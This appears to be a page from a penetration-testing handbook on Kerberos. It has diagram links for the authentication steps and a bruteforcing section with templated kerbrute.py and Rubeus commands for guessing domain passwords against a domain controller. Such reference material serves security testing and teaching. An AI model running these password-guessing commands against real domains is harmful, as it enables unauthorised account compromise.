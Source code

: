 # Kerberos

### How it works <a href="#how-it-works" id="how-it-works"></a>

<figure><img src="https://pentestbook.six2dez.com/~gitbook/image?url=https%3A%2F%2F1729840239-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-M5x1LJiRQvXWpt04_ee%252F-MHjR6ILX3h1MV0a0Sv_%252F-MHjTyOWhdPrhRSu_unL%252Fimagen.png%3Falt%3Dmedia%26token%3Dce2a275d-19b2-44ce-8773-2bbfa64d6884&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=1754b347&#x26;sv=2" alt=""><figcaption></figcaption></figure>

### Step 1 <a href="#step-1" id="step-1"></a>

<figure><img src="https://pentestbook.six2dez.com/~gitbook/image?url=https%3A%2F%2F1729840239-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-M5x1LJiRQvXWpt04_ee%252F-MHjUOaIzpSuWFvJPCfI%252F-MHjUY0hEyp5K3yN3SkH%252Fimagen.png%3Falt%3Dmedia%26token%3D73b45eb6-6f05-46f2-96ec-274ce5440348&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=17a1580b&#x26;sv=2" alt=""><figcaption></figcaption></figure>

### Step 2 <a href="#step-2" id="step-2"></a>

<figure><img src="https://pentestbook.six2dez.com/~gitbook/image?url=https%3A%2F%2F1729840239-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-M5x1LJiRQvXWpt04_ee%252F-MHjUOaIzpSuWFvJPCfI%252F-MHjUaWYUyUXPQ-dMPou%252Fimagen.png%3Falt%3Dmedia%26token%3Dd1a04c82-846a-4946-b525-94de67fa6109&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=eb37163c&#x26;sv=2" alt=""><figcaption></figcaption></figure>

### Step 3 <a href="#step-3" id="step-3"></a>

<figure><img src="https://pentestbook.six2dez.com/~gitbook/image?url=https%3A%2F%2F1729840239-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-M5x1LJiRQvXWpt04_ee%252F-MHjUOaIzpSuWFvJPCfI%252F-MHjUv3pUjCLdtspdcVf%252Fimagen.png%3Falt%3Dmedia%26token%3D291c672c-2b83-46e0-b181-b1b3850e8aaa&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=5967683&#x26;sv=2" alt=""><figcaption></figcaption></figure>

### Step 4 <a href="#step-4" id="step-4"></a>

<figure><img src="https://pentestbook.six2dez.com/~gitbook/image?url=https%3A%2F%2F1729840239-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-M5x1LJiRQvXWpt04_ee%252F-MHjUOaIzpSuWFvJPCfI%252F-MHjV5h2gmLNlVMoLtqb%252Fimagen.png%3Falt%3Dmedia%26token%3Defe0a30e-a8c4-47df-b779-2e94ea10829b&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=38929454&#x26;sv=2" alt=""><figcaption></figcaption></figure>

### Step 5 <a href="#step-5" id="step-5"></a>

<figure><img src="https://pentestbook.six2dez.com/~gitbook/image?url=https%3A%2F%2F1729840239-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-M5x1LJiRQvXWpt04_ee%252F-MHjUOaIzpSuWFvJPCfI%252F-MHjVDU2NARykjII9HyJ%252Fimagen.png%3Falt%3Dmedia%26token%3D3f29ba8a-f15d-4820-b98b-9320eb9a433b&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=e3cb8cd7&#x26;sv=2" alt=""><figcaption></figcaption></figure>

### Bruteforcing <a href="#bruteforcing" id="bruteforcing"></a>

> Requirements: connection with DC/KDC.

#### Linux (external) <a href="#linux-external" id="linux-external"></a>

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):

```python
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

#### Windows (internal) <a href="#windows-internal" id="windows-internal"></a>

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:

```powershell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
